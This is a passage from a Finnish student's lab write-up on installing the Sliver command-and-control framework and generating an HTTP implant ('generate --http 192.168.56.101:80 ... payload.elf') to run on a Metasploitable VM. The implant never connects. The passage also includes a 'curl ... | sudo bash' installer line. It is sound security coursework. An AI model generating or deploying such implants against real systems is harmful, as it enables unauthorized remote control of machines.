

Kyllähän tästä edelleen huomaa että jotain hämärää on tekeillä, mutta ainakin yhteyden salaus mahdollistaa sen, että tutkija ei suoraan tästä näe mitä hyökkääjä on tehnyt.

## c) Hello, Sliver. Näytä esimerkki http-yhteydestä Sliverillä.
### Asennus ja alustus
Tutustuin sliverin viralliseen dokumentaatioon (Sliver C2), sekä github sivuun (BishopFox).
Tero oli maininnut, että ChatGPT:ltä kannatta kysyä neuvoa asennukseen, sillä virallisen dokumentaation avulla ohjelmaa ei välttämättä saa kunnolla toimimaan. Asennus oli loppupeleissä melko kivuton.
```
curl https://sliver.sh/install | sudo bash
sliver-server
sliver-client
```
- curl komento asentaa itse sliverin. Outputti pipetetaan bashiin, jolloin asennus-scripti ajetaan heti.


- sliver-server -komento generoi sertifikaatit, luo konfigit ja käynnistää C2-palvelimen.


- sliver-client -komento käynnistää ohjelman ja yhdistyy localhost-serveriin.


Palvelimen tilan voi tarkistaa komennolla
```
sudo systemctl status sliver
```


### HTTP-listener
Virallisess dokumentaatiossa (Sliver C2) on hyvät ohjeet implantin luomiselle.

Aloitin irroittamalla koneen verkosta.
```
sudo ip link set eth0 down
```
Sitten avasin sliver serverin ja clientin. Clientissa loin implantin.
```
generate --http 192.168.56.101:80 --os linux --arch x86 --save payload.elf
```
- `--http` Käytetty tiedonsiirtoprotokolla.
- `192.168.56.101:80` Osoite ja portti joihin otetaan kohdekoneelta yhteyttä.
- `--os linux` Kohteen käyttöjärjestelmä.
- `--arch x86` Prosessorin arkkitehtuuri.
- `--save payload.elf` Implantti tallennetaan tällä nimellä.


Implantin kääntämisessä meni todella kauan ja pelkäsin jo pariin otteeseen että virtuaalikoneeni crashaa, mutta tulihan se valmiiksi lopulta.

Avasin tarvittavat portit 
```
sudo ufw allow 8000/tcp
sudo ufw allow 80/tcp
```
- 8000 on tiedoston siirtämistä varten ``python3 -m http.server``
- 80 on kuunteleva portti.

Sitten siirsin implantin metasploitableen totutulla tavalla ja annoin suoritusoikeudet.

Laitoin http listenerin päälle ja ajoin implantin, mutta mitään ei tapahtunt eikä sessioita avattu.


Yritin vielä luoda uuden implantin jossa --arch oli 386 ja --save ei ollut määritelty mitään, mutta tämäkään ei tuottanut tulosta.


Tarkistin, että apache2 tai nginx ei ole päällä ja käytössä portissa 80. Tarkistin myös, että metasploitablesta saa yhteyden porttiin 80.




Vaikka koitin useamman kerran ajaa implanttia metasploitablella, niin mikään ei auttanut.



## Lähteet
BishopFox. Sliver. Luettavissa: https://github.com/BishopFox/sliver. Luettu: 2.5.2026.

CyberOffense. 17.4.2022. Use Msfvenom to Create a Reverse TCP Payload. Katsottavissa: https://www.youtube.com/watch?v=ZqWfDrD2WVY. Katsottu: 28.4.2026.

duck-sec. 20.2.2024. msfvenom-revshell-cheatsheet. Luettavissa: https://github.com/duck-sec/msfvenom-revshell-cheatsheet. Luettu: 29.4.2026.

Sahu, V. 21.1.2024. Staged vs Non-staged Payloads in Cybersecurity. Luettavissa: https://www.scaler.com/topics/cyber-security/staged-vs-non-staged-payloads/. Luettu: 30.4.2026.

Sliver C2. Getting Started. Luettavissa. https://sliver.sh/docs/?name=Getting+Started. Luettu: 2.5.2026.

Wikipedia. Executable and Linkable Format. Luettavissa: https://en.wikipedia.org/wiki/Executable_and_Linkable_Format. Luettu: 30.4.2026. 